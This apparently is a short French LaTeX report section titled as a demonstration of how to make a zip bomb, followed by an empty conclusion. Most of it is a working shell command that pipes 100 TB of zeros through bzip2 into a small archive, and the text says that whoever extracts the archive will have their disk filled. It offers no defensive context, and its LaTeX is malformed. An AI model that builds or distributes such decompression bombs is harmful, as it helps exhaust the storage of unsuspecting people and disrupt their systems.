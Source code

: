 \documentclass[a4paper, 12pt]{article}
\begin{document}
		\subsection{Démonstration : Comment faire une zip bomb ?}
		\begin{flushleft}
			\noindent Entrez cette commande dans le terminal. 
			\item Cela compresse 100 To de données dans un fichier d’environ 14,9 Mo. Ainsi, lorsque quelqu’un essaie de l’extraire, il devrait s’étendre à plus de 1300000x sa taille et leur disque dur devrait être rempli de caractères nuls!
		
			\begin{lstlisting}
dd if=/dev/zero bs=10G count=10000 | bzip2 -c > zipBomb.bz2
        	\end{lstlisting}
        	\item Il suffit alors d'extraire le fichier via la commande suivante : 
        	\begin{lstlisting}
bzip2 -d zipBomb.bz2
        	\end{lstlisting}
        \end{flushleft}

    \section{Conclusion}
        \nocite{*}
	
	
\end{document}
